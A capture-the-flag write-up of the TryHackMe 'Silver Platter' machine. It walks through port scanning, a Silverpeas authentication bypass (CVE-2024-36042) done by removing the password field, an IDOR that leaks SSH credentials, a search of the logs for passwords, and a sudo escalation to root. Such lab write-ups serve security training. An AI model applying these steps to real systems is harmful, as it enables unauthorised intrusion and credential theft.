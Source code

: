 # Silver Platter - TryHackMe Writeup

**TL;DR:**  Exploiting an authentication bypass vulnerability in Silverpeas (CVE-2024-36042) to gain initial access, discovering SSH credentials through IDOR vulnerability, and escalating privileges via password reuse and sudo misconfiguration.

## Target
- Machine: `silver.thm`
- Date: 2025-7-13
- Environment: TryHackMe / CTF

## Steps:

1. Initial scan:

```bash
nmap -sV -sC -T4 -Pn silver.thm

22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
```
-------------------

While checking the site on port 80 we found:

![contact](images/contact-user.png)

We found manager username. `scr1ptkiddy`
on `Silverpeas` software

--------------------

2. Directory discovery:

We've already found out the project name they're using. `silverpeas`
it's run on `8080` port.

URL: `http://silver.thm:8080/silverpeas/`

![Silverpeas](images/silverpeas.png)

About the project:
`Silverpeas is an open-source intranet software for sharing, collaboration, and communication, with features like content sharing, messaging, and knowledge ...`

---------------------

3. Login bypass

#### CVE-2024-36042
`Silverpeas before 6.3.5 allows authentication bypass by omitting the Password field to AuthenticationServlet, often providing an unauthenticated user with ...`

We gonna remove password field from login request via burp suite :

![Remove password field](images/burp-sutie2.png)

login successfully !

----------------------

4. IDOR

If we look at the URL of the notifications we can see the ID of the user.

![ID of the user](images/notifications.png)

We can discover other users' messages by changing the ID.

ID 6 contains the SSH credentials.

![ssh credentials of 'tim'](images/ssh-credential2.png)

--------------------------------------

## User Flag

connect via ssh with credentials that we discovered.

```bash
ssh tim@silver.thm
```

```bash
cat user.txt

THM{[REDACTED]}
```

## Root Flag

Search for passwords in files:

```bash
fgrep --color -Rsi "password" *


log/auth.log.2:Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=[REDACTED]/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-

```
We discovered database password of user `tyler` in the log files.
we reuse it to switch to `tyler`.

```bash

tim@ip-10-10-227-130:/var$ su tyler
Password: 
tyler@ip-10-10-227-130:/var$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

--------------------

User `tyler` can run any command as root without password:
```bash
tyler@ip-10-10-227-130:~$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-10-227-130:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on ip-10-10-227-130:
    (ALL : ALL) ALL


tyler@ip-10-10-227-130:~$ sudo su
root@ip-10-10-227-130:/home/tyler# id
uid=0(root) gid=0(root) groups=0(root)
```
Root flag:

```bash
root@ip-10-10-227-130:/home/tyler# cat /root/root.txt 
THM{[REDACTED]}
```
